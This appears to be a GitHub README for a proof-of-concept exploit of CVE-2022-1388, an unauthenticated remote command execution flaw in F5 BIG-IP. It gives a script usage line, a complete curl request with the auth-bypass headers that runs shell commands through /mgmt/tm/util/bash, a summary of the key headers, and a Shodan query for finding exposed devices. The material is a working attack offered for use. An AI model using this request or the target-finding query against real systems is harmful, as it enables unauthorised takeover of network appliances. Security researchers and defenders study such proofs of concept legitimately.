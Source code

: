 # CVE-2022-1388
F5 BIG-IP Unauthenticated RCE   
&nbsp;

## Usage
```bash
python3 CVE-2022-1388.py -t 192.168.0.221 -c id
```
&nbsp;

## POC
Use following POST request to execute ```id``` command.
```
curl -i -s -k -X $'POST' \
    -H $'Host: localhost' -H $'Connection: keep-alive, X-F5-Auth-Token' -H $'Authorization: Basic YWRtaW46' -H $'X-F5-Auth-Token: a' -H $'Content-Length: 39' \
    --data-binary $'{\"command\":\"run\",\"utilCmdArgs\":\"-c id\"}' \
    $'https://IP_HERE/mgmt/tm/util/bash'
 ```
 ![poc](./poc.png)
&nbsp;
Key Points:
```
URL: /mgmt/tm/util/bash
Connection: keep-alive, X-F5-Auth-Token
Authorization: Basic YWRtaW46
X-F5-Auth-Token: anything
```
&nbsp;

## How Does It Works
![poc](./how-work.jpg)
&nbsp;

## Shodan Query:
```
http.title:"BIG-IP&reg;-+Redirect" +"Server" 
```
&nbsp;

## Nuclei Template:
[CVE-2022-1388.yaml](./CVE-2022-1388.yaml)
</br>&nbsp;

## Credit
[AnnaViolet20](https://twitter.com/AnnaViolet20/status/1523564632140509184?s=20&t=dA5mPYazYHS6MuaFAaRvCw)'s tweet.</br>
[numanturle](https://github.com/numanturle/CVE-2022-1388)'s github page.</br>
[jas502n](https://twitter.com/jas502n/status/1523611433938059265)' tweet.</br>
[horizon3ai](https://github.com/horizon3ai/CVE-2022-1388)'s github page.
